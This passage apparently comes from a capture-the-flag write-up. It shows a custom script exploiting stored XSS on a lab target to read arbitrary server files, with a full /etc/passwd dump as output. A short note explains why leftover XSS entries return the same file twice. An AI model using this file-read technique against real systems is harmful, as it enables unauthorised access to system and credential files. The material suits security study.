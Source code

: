 ```

root@kali# python3 book_file_read.py 
Session created as user: cr7qe72admu9iqk9aja5pcc7nv 
Session created as admin: 4mo93ht69to89sc4vuv3j81rn9     
book> /etc/passwd                            
root:x:0:0:root:/root:/bin/bash                    
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin    sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin      www-data:x:33:33:www-
data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing    List    Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin        gnats:x:41:41:Gnats
Bug-Reporting   System  (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin      systemd-
network:x:100:102:systemd       Network
Management,,,:/run/systemd/netif:/usr/sbin/nologin      systemd-
resolve:x:101:103:systemd
Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
reader:x:1000:1000:reader:/home/reader:/bin/bash
mysql:x:111:114:MySQL   Server,,,:/nonexistent:/bin/false

```

#### Issues

If I don’t wait a minute before sending the next query, both XSS entries will still be there, and therefore the request will return both files:

```

book> /etc/lsb-release
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin    sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin      www-data:x:33:33:www-
data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing    List    Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin        gnats:x:41:41:Gnats
Bug-Reporting   System  (admin):/var/lib/gnats:/usr/sbin/nologin
```